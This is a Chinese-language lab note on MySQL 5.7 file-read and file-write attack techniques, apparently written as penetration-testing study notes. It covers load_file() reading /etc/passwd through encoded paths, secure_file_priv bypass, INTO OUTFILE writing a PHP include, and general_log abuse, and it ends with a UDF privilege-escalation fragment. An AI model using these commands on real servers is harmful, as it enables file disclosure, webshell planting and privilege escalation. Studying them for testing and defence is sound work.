

## load_file() / into outfile()


这里使用  mysql v 5.7.27  centos7

用load_file()搜索一个存在目录的文件,发现返回null，默认没开权限，只能导入导出mysql数据库目录下文件。

	mysql> select load_file('/home/a.php');
	+--------------------------+
	| load_file('/home/a.php') |
	+--------------------------+
	| NULL                     |
	+--------------------------+
	1 row in set (0.00 sec)

查 secure 权限

	mysql> show global variables like '%secure%';
	+--------------------------+-----------------------+
	| Variable_name            | Value                 |
	+--------------------------+-----------------------+
	| require_secure_transport | OFF                   |
	| secure_auth              | ON                    |
	| secure_file_priv         | /var/lib/mysql-files/ |
	+--------------------------+-----------------------+
	3 rows in set (0.01 sec)

默认路径 /var/lib/mysql-files/

在该路径 新建 a.php，导入。

	mysql> select load_file("/var/lib/mysql-files/a.php");
	+-----------------------------------------+
	| load_file("/var/lib/mysql-files/a.php") |
	+-----------------------------------------+
	| sss
	                                    |
	+-----------------------------------------+
	1 row in set (0.00 sec)

可以看到结果。

搜索mysql配置文件my.cnf

	whereis my.cnf

	vi /etc/my.cnf

在 my.cnf 的  ```[mysqld]``` 下新建

```secure_file_priv=``` ，(这里有点没搞清楚，比如 /etc/passwd 可以读取的，/var/www/html/ 下的文件不可以读取，查看目录里权限一样的。 导出的话经过测试无法导出到其他目录；)



不如改成 ： ```secure_file_priv=/var/www/html```，然而这又需要其他权限。

5.7.30 测试改了```/etc/my.cnf``` 会导致mysql无法启动。


导入命令 ```select "<?php include 'publicguide.jpg' ?>"INTO OUTFILE '/home/a.php'```

	mysql> show global variables like '%secure%';
	\+--------------------------+-------+
	| Variable_name            | Value |
	+--------------------------+-------+
	| require_secure_transport | OFF   |
	| secure_auth              | ON    |
	| secure_file_priv         |       |
	+--------------------------+-------+
	3 rows in set (0.01 sec)

重启mysql  ```service mysqld restart```

权限生效，可以用load_file()查看系统任意文件。


	select load_file(0x2F6574632F706173737764);

或  	
	select load_file(char(47,101,116,99,47,112,97,115,115,119,100));

分别表示ASCII字符```/etc/passwd```   的16进制和10进制  

等价于  ```select load_file('/etc/passwd');```


	mysql> select '1' into outfile '/etc/aaa/php';
	ERROR 1290 (HY000): The MySQL server is running with the --secure-file-priv option so it cannot execute this statement

导出到默认开启的目录下

	mysql> select '1' into outfile '/var/lib/mysql-files/aaa.php';
	Query OK, 1 row affected (0.00 sec)

## ```general_log_file```

	mysql> show global variables like "%genera%";
	+------------------+-----------------------------------+
	| Variable_name    | Value                             |
	+------------------+-----------------------------------+
	| general_log      | OFF                               |
	| general_log_file | /var/lib/mysql/VM_32_9_centos.log |
	+------------------+-----------------------------------+
	2 rows in set (0.00 sec)

v 5.7.27 默认查询内容不写日志

手动开启写日志

	set global general_log='on';

还可以给日志文件新的路径

	SET global general_log_file='/var/lib/mysql/VM_32_9_centos.log2';


## 参考资料


[MySQL数据库渗透及漏洞利用总结](https://mp.weixin.qq.com/s?__biz=MzIyNjE4NDcyMA==&mid=2247484839&idx=1&sn=16720fb8e035c8bbe612d738839262c5&chksm=e8751ed8df0297ce54ef5acabd5a42f66f81f66b56b168ba80a3af5d55877d546aee33dd8510&scene=0#rd)

[MySQL 漏洞利用与提权](https://www.sqlsec.com/2020/11/mysql.html)

## 后记


**注意：在导出文件时，当前mysql用户必须存在file权限；部分MySQL服务器运行时启用了--secure-file-priv选项，导出文件时只能导出到规定的目录下，一般为/var/mysql/data命令，要自定义目录时必须修改配置文件设置```secure-file-priv=```；并且导入目录需要有写权限。**


实战中mysql未授权的权限一般都不高，web目录一般都是web当前用户具有写权限，所以很难写进去，向root下写公钥需要root权限，写tmp目录不需要权限。

linux 环境比较苛刻，一般windows mysql提权比较多。

	select hex(load_file('/tmp/lib_mysqludf_sys_64.so')) into dumpfile '/tmp/udf.txt';

	show variables like '%plugin%';

